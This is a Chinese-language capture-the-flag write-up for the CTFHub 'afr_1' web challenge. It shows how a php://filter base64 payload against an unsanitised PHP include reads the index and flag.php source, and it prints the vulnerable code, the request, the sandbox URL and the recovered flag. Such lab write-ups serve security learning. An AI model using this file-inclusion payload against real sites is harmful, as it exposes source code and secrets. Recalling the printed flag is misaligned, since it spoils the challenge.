


### 题目名称：afr-1

题目来源：CTFHub（原题：N1Book-第一章Web入门-任意文件读取漏洞-afr_1）

题目类别：Web

题目描述：



### 解题思路

页面只有一个参数 p。访问 p=hello 返回 hello world!，访问 p=flag 返回 no no no，说明代码是把 p 的值拼上 .php 再 include。flag.php 里第一句就是 die，所以直接包含它只会被踢出去。flag 写在它的源码注释里，得想办法读源码而不是执行它。

为了搞清楚代码到底怎么写，先用流过滤器去读主页源码。下面这张图是用 convert.iconv.utf-8.utf-16 读出来的 index 源码，在浏览器地址前加 view-source: 前缀就能直接看。不加前缀的话浏览器会把 `<?php` 当成 HTML 的伪注释，一直吃到文件结尾，整页就变白屏了，这也是为什么直接在地址栏打开这个 payload 什么都看不到。



从源码能确认两件事：一是会自动拼 .php，所以目标写 flag 就行，写 flag.php 反而变成 flag.php.php；二是没有黑名单，p=flag 返回 no no no 其实是 flag.php 自己 die 了。

所以要做的就是让文件被读、而不是被执行。用 php://filter 这个流包装器，它打开的是文件的字节流，不执行文件本身；再加一层编码，读到的内容里就没有 `<?php` 这个标签了，include 拿到的只是一段普通数据，于是源码原样输出。编码选 convert.base64-encode 或 convert.iconv.utf-8.utf-16 都可以，下面用 base64。

### 详细步骤

1. 先摸清行为。访问 p=hello 返回 hello world!，访问 p=flag 返回 no no no

2. 说明代码是把参数拼上 .php 再 include，并且 flag.php 一被包含就 die，执行这条路走不通

3. 先用过滤器读主页源码，把代码搞清楚

    ```
    ?p=php://filter/convert.base64-encode/resource=index
    ```

    页面返回一段 base64

    ```
    PD9waHAKCmlmKGlzc2V0KCRfR0VUWydwJ10pKSB7CiAgICBpbmNsdWRlIChzdHJpbmcpJF9HRVRbJ3AnXSAuICIucGhwIjsKfQplbHNlewogICAgaGVhZGVyKCdMb2NhdGlvbjogLz9wPWhlbGxvJyk7Cn0K
    ```

    解码后得到

    ```php
    <?php

    if(isset($_GET['p'])) {
        include (string)$_GET['p'] . ".php";
    }
    else{
        header('Location: /?p=hello');
    }
    ```

    从源码确认了两点：一是会自动拼 .php，所以目标写 flag 就行，写 flag.php 反而变成 flag.php.php；二是确实没有黑名单，p=flag 之所以返回 no no no，是 flag.php 自己 die 了

4. 换成目标文件，用同样的过滤器读 flag

    ```
    ?p=php://filter/convert.base64-encode/resource=flag
    ```

    返回

    ```
    PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9Cg==
    ```

5. 把这段 base64 解码，得到 flag.php 的源码

    ```php
    <?php
    die('no no no');
    //n1book{afr_1_solved}
    ```

6. 注释里就是 flag，获得flag

### Payload

```
GET /?p=php://filter/convert.base64-encode/resource=flag HTTP/1.1
```

完整地址

```
http://challenge-7658aefcd8b703bf.sandbox.ctfhub.com:10800/?p=php://filter/convert.base64-encode/resource=flag
```

返回的 base64 解码后就是源码

```
PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9Cg==
```

### flag

n1book{afr_1_solved}

### 总结&反思

这次我学会了如何去查看web的源码，不用猜源码好像是个很重要的事情。又是一道新题，我不是选的简单题吗？怎么老是我没见过的操作。
